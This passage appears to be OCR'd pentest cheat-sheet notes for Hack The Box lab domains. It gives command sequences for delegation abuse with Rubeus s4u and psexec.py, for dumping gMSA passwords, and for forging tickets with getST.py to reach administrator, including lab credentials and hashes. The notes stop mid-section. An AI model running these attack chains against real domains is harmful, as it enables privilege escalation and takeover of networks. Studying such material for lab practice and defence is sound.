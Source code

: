 ```
	- check it worked:
		- `$RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity`
		- `$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0`
		- `$Descriptor.DiscretionaryAcl`
			- will display `AccessAllowed` under AceType if worked
```
.\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
```
- get hash of fake computer account labeled rc4_mac and put into next command:
```
.\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```
- last base64 ticket listed should be for administrator
	- copy and save it to kali without spaces as `ticket.kirbi.b64`
on kali:
```
base64 -d ticket.kirbi.b64 > ticket.kirbi
```
- base64 decode and save as ticket.kirbi
```
ticketConverter.py ticket.kirbi ticket.ccache
```
- save ticket in cacheable format
```
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
- saves ticket in cash and get shell as administrator


***ReadGMSAPassword privilege in Bloodhound***
can confirm account is a service account with GMSA enabled
```
Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}
```
- Will list service accounts and ObjectClass will say msDS-GroupmanageServiceAccount if GMSA is enabled
get more insight into the group that manages this service account, import PowerView.ps1, then run:
```
Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames
```
- will show service account/user `svc_apache` and the groups that have this permission under `PrincipalsAllowedToDelegateToAccount` with CN=
	- check who's a member of that group with 
```
Get-ADGroupMember 'Web Admins'
```
extract hash from user listed (need shell as another user and upload tool):
```
.\GMSAPasswordReader.exe --accountname svc_apache$
```
- current value rc4_mac is the NT hash
extract hash from user's listed in above command (need creds)
```
python3 gMSADumper.py -u ted.graves -p Mr.Teddy -l intelligence.htb -d intelligence.htb
```
forge ticket from delegated service, pass ticket from previous command:
```
getST.py -dc-ip 10.129.227.54 -spn www/dc.intelligence.htb -hashes :51e4932f13712047027300f869d07ab6 -impersonate administrator intelligence.htb/svc_int
```
shell via cached ticket (caches automatically from previous command):
```